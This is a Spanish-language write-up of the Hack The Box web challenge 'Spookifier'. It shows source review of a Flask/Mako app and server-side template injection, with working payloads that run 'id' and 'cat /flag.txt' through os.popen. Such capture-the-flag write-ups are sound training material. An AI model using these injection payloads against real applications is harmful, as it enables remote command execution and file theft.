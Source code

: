 ```yaml
---
title: Spookifier
description: There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - ssti
  - arbitrary_file_read
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

El sitio web proporciona una funcionalidad sencilla, permite ingresar texto que luego es transformado a distintos estilos de fuentes.

![](assets/img/htb-writeup-spookifier/spookifier1.png)

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ unzip Spookifier.zip 
```

Descomprimo el archivo proporcionado por el reto para analizar su contenido. A simple vista, parece tratarse de la misma web mostrada en la interfaz, y está implementada en Python.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ tree web_spookifier 
web_spookifier
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

Revisando el Dockerfile, confirmo que el archivo `flag.txt` es copiado directamente al directorio raíz.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ cat web_spookifier/Dockerfile 
...snip...
# Copy flag
COPY flag.txt /flag.txt
...snip...
```

El archivo `main.py` sugiere que la aplicación utiliza Mako Templates como motor de plantillas.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ head -3 web_spookifier/challenge/application/main.py
from flask import Flask, jsonify
from application.blueprints.routes import web
from flask_mako import MakoTemplates
```

Teniendo en cuenta esto, realizo una prueba de Server-Side Template Injection específica para Mako. El resultado mostrado por la aplicación es 49, lo cual confirma que la presencia de la vulnerabilidad SSTI.

![](assets/img/htb-writeup-spookifier/spookifier2.png)

---
## Vulnerability Exploitation

Consultando [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/996c83bb4ba054261767cf49f6c5b4d582393cf2/Server%20Side%20Template%20Injection#mako), encuentro referencias útiles para construir una cadena capaz de ejecutar comandos arbitrarios utilizando Mako Templates. Mediante el uso de os.popen, logro explotar la vulnerabilidad SSTI y ejecutar comandos del sistema. 

```python
${self.module.cache.util.os.popen('id').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier3.png)

La vulnerabilidad permite la lectura arbitraria de archivos y la ejecución de comandos. A partir de esto, accedo al contenido de la flag alojada en el directorio raíz.

```python
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier4.png)

> <a href="https://labs.hackthebox.com/achievement/challenge/1521382/413" target="_blank">***Litio7 has successfully solved Spookifier from Hack The Box***</a>
{: .prompt-info style="text-align:center" }